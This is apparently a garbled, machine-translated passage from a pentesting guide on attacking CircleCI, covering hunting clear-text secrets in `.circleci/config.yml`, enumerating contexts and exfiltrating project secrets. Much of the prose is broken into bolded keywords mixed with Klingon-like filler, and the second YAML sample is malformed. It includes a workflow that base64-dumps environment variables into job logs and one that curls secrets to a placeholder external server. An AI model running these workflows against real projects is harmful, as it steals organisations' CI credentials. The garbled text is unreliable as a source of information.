 ## Attacks

### Search Clear Text Secrets

**VCS** (github **chel**) **access** **file** `.circleci/config.yml` **repo** **branch** **search** **clear text secrets** **stored**.

### Secret Env Vars & Context enumeration

**Code** **secrets names** **found** `.circleci/config.yml` **file**. **Context names** **files** **check** **web console**: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Exfiltrate Project secrets

{% hint style="warning" %}
**exfiltrate ALL** **project** **context SECRETS** **WRITE** **access** **1 repo** **github org** (_account** access** **contexts** **default everyone** **access** **context_).
{% endhint %}

{% hint style="danger" %}
"**Import Variables**" **chel** **variables** **import** **projects** **vItlhutlh**. **attacker** **import** **project variables** **repos** **exfiltrate**.
{% endhint %}

**project secrets** **set** **env** **jobs**, **calling env** **obfuscating** **base64** **exfiltrate** **secrets** **workflows web log console**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
**ghItlhvam** **web console** **ghItlhvam** **repo** **'ej** CircleCI **vaj** **ghItlhvam** **workflow** **cha'logh** **cha'logh** **'ej** **'oH** **secrets** **'ej** **'oH** **external address** **qach** **exfils**.

```yaml
version: 2.1
workflows:
  version: 2
  exfil-secrets:
    jobs:
      - exfil:
          filters:
            branches:
              only: master
          steps:
            - run:
                name: Exfil secrets
                command: |
                  curl -X POST -H "Content-Type: application/json" -d '{"secret": "YOUR_SECRET", "address": "EXTERNAL_ADDRESS"}' https://your-external-server.com
```